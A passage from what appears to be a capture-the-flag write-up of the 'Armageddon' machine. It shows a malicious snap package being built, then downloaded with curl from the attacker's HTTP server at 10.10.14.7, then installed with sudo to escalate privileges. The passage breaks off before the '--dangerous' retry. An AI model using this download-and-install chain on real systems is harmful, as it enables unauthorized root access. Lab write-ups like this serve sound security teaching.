 Now on running `snapcraft`, it creates the package:

```

df@buntu:/tmp/dirty_snap$ snapcraft
This snapcraft project does not specify the base keyword, explicitly setting the base keyword enables the latest snapcraft features.
This project is best built on 'Ubuntu 16.04', but is building on a 'Ubuntu 20.04' host.
Read more about bases at https://docs.snapcraft.io/t/base-snaps/11198
Pulling my-part 
Building my-part 
Staging my-part 
Priming my-part 
Snapping 'armageddon' |                                                                                      
Snapped armageddon_0.1_amd64.snap
df@buntu:/tmp/dirty_snap$ ls *.snap
armageddon_0.1_amd64.snap

```

### Transfer to Armageddon

I’ll start a Python HTTP server in the directory on my local box where the snap package is:

```

oxdf@parrot$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Now from Armageddon, I’ll request it. `wget` isn’t installed, but `curl` is:

```

[brucetherealadmin@armageddon shm]$ curl 10.10.14.7/armageddon_0.1_amd64.snap -o armageddon_0.1_amd64.snap
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4096  100  4096    0     0  21478      0 --:--:-- --:--:-- --:--:-- 21671

```

### Install Snap

To install the package, I’ll run the command with `sudo` and pass it the snap. It fails:

```

[brucetherealadmin@armageddon shm]$ sudo snap install armageddon_0.1_amd64.snap 
error: cannot find signatures with metadata for snap "armageddon_0.1_amd64.snap"

```

Some [Googling](https://askubuntu.com/questions/822765/snap-install-failure-error-cannot-find-signatures-with-metadata-for-snap) this error suggested adding `--dangerous`, which now gives a different error:
